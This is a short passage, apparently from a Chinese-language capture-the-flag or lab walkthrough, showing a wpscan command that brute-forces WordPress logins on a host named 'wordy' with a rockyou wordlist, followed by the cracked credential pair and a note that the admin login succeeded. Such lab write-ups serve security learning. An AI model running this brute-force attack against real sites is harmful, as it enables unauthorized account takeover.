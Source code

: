  

 

 

## 然后使用wpscan进行爆破

```
wpscan --url http://wordy/ -U users.txt -P rockyou.txt
```

![img](./assets/wps903.jpg) 



```
mark/helpdesk01
```

成功登录后台

 
